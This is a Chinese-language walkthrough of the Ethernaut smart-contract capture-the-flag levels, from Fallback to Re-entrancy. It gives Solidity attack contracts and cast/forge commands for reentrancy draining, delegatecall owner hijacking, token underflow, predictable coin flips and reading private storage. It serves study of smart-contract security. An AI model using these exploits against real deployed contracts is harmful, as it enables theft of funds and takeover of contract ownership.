 # [The Ethernaut](https://ethernaut.openzeppelin.com)

一个非常有意思的网站，提供了一系列题目

以下内容(可能)省略：
- instance合约地址
- rpc url
- 私钥
- player地址

## Fallback

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Fallback} from "../src/Fallback.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 0.0000000000002 ether}().exploit();
        vm.stopBroadcast();
    }
}
contract Attack{
    Fallback public target = Fallback(payable(address()));
    constructor() payable {
        require(msg.value >= 0.000000000000002 ether);
    }
    function exploit() public{
        target.contribute{value: 0.000000000000001 ether}();
        (bool success, ) = payable(target).call{value: 0.000000000000001 ether, gas: 500000}(""); //gas要给够
        require(success, "Receive failed");
    }
}
```
但是吧，这只会让owner变成上述合约，而题目要求owner为player，即metamask里登记的账号。需要手动cast send更新owner
```sh
cast send "" "contribute()" --from "" --value 0.0000000000000011ether
cast send "" "withdraw()" --from ""
```
## Fallout

并非constructor（

```sh
cast send "" "Fal1out()" --from ""
cast send "" "collectAllocations()" --from ""
```

## Coin Flip

`block.number`是可以预测的。一个要注意的地方是，题目检查了`lastHash != blockValue`，因此两个转账之间不能太快，要给`block.number`自增的时间
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {CoinFlip} from "../src/CoinFlip.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script {
    function run() public { //以后若没有说明默认都是这一套(或者像上面那样加上value)，因此会省略这部分
        vm.startBroadcast();
        new Attack().exploit();
        vm.stopBroadcast();
    }
}
contract Attack {
    CoinFlip public target = CoinFlip(address());
    uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        target.flip((blockValue / FACTOR) == 1);
    }
}
```
```sh
for i in {1..10}; do
    forge script script/Attack.s.sol:AttackScript --rpc-url $ETH_RPC_URL --private-key $PRIVATE_KEY --broadcast
    sleep 15
done
```
## Telephone

简单来说，可以将`msg.sender`理解成调用函数的合约地址；而`tx.origin`是调用链的原始发起者，比如用户的钱包地址。只要用foundry来解这题（remix应该也行，但我配置不好……），两者就一定不一样
```solidity
contract Attack {
    Telephone public target = Telephone(address());
    function exploit() public {
        target.changeOwner(address());
    }
}
```
## Token

balances用uint256存储token数量，但没检查溢出
```sh
cast send "" "transfer(address,uint256)" "任意一个不等于player的地址" 21 --from ""
```
## Delegation

之前在`GlacierVault`那题见过，delegatecall的原理是：假设合约A使用delegatecall调用合约B的某个方法C，则执行方法C时内部所使用的storage是合约A而不是B的。也就是，本来方法C内部修改的是合约B的某些字段，假设在D处；但使用delegatecall后，实际修改的storage是合约A在D处的内存

这题合约`Delegation`使用delegatecall调用`Delegate`合约的函数。如果我们让调用的函数为pwn，pwn内部会设置`owner = msg.sender`。但实际改变的不是`Delegate`的owner，而是`Delegation`的owner，因为两个合约的owner字段在storage里的位置相同，且delegatecall修改的是调用者的storage

首先拿pwn函数的签名：
```sh
cast sig "pwn()"
```
然后调用delegatecall：
```sh
cast send "" "0xdd365b8b" --from ""
```
另外，在终端调用`await contract.owner()`验证owner时发现更改有延迟，输出的还是原来的值。不管，直接自信submit instance（

## Force

selfdestruct可以自毁当前合约，将全部的balance转给参数指定的地址，无视目标是否有相应的接收函数

```solidity
contract Attack {
    constructor() payable {
        require(msg.value != 0 ether);
    }
    function exploit() public {
        selfdestruct(payable(address()));
    }
}
```
## Vault

solidity里的private属性只保证了其他合约无法访问指定的字段；但实际的值仍然在链上，任何人都可以查看storage进而获取其值

```sh
cast storage "" 1
```
slot 0是locked，因此slot 1是password
```sh
cast send "" "unlock(bytes32)" "0x..."
```
## King

类似这题： https://medium.com/@Jesserc_/solidity-attack-vectors-2-dos-with-unexpected-revert-509a09e75c9f

receive函数中的逻辑有缺陷：`payable(king).transfer(msg.value)`。若king合约未实现接收的fallback函数，代码执行到这里时会失败，导致revert。自然就走不到下面的更新逻辑了
```solidity
contract Attack {
    King target = King(payable(address()));
    constructor() payable {
        require(msg.value != 0 ether);
    }
    function exploit() public {
        (bool success, ) = payable(target).call{value: 0.0010000000000001 ether, gas: 500000}("");
    }
}
```
## Re-entrancy

注意withdraw函数中先调用了`msg.sender.call`再更新`balances[msg.sender]`。call函数会调用接收者的fallback/receive函数。如果在receive里再次调用withdraw，就能重复以上步骤，直到清空目标的balance
```solidity
contract Attack {
    Reentrance target = Reentrance(payable(address()));
    constructor() public payable {
        require(msg.value != 0 ether);
    }
    function exploit() public {
        target.donate{value:0.0005 ether}(address(this));
        target.withdraw(0.0005 ether);
    }
    fallback() external payable { 
        target.withdraw(0.0005 ether);
    }
}
```
safemath库见 https://github.com/fractional-company/contracts/blob/master/src/OpenZeppelin/math/SafeMath.sol 。不过版本是`0.8.0`，需要修改Reentrance的版本到`0.8.0`才能使用